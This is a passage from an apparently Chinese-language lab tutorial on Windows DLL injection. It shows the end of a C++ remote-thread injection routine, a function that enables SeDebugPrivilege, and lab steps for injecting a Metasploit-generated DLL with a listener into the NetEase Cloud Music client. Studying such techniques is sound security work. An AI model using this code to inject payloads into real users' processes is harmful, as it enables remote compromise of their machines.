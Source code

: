 ```cpp
	// WaitForSingleObject
	WaitForSingleObject(ThreadHandle, INFINITE);
	VirtualFreeEx(TargetProcessHandle, VirtualAddress, ulDllLength, MEM_DECOMMIT);			// 清理
	CloseHandle(ThreadHandle);
	CloseHandle(TargetProcessHandle);
}

BOOL EnableDebugPrivilege()
{
	HANDLE TokenHandle = NULL;
	TOKEN_PRIVILEGES TokenPrivilege;
	LUID uID;
	//打开权限令牌
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle))
	{
		return FALSE;
	}
	if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &uID))
	{
		CloseHandle(TokenHandle);
		TokenHandle = INVALID_HANDLE_VALUE;
		return FALSE;
	}
	TokenPrivilege.PrivilegeCount = 1;
	TokenPrivilege.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	TokenPrivilege.Privileges[0].Luid = uID;
	if (!AdjustTokenPrivileges(TokenHandle, FALSE, &TokenPrivilege, sizeof(TOKEN_PRIVILEGES), NULL, NULL))
		//调整权限
	{
		CloseHandle(TokenHandle);
		TokenHandle = INVALID_HANDLE_VALUE;
		return  FALSE;
	}
	CloseHandle(TokenHandle);
	TokenHandle = INVALID_HANDLE_VALUE;
	return TRUE;
}

```

**实验**

使用上述代码实现DLL注入

1、kali上使用`msf`生成DLL，并开启监听

2、准备注入网易云

![image-20220314112247999](images/cloudmusic.png)
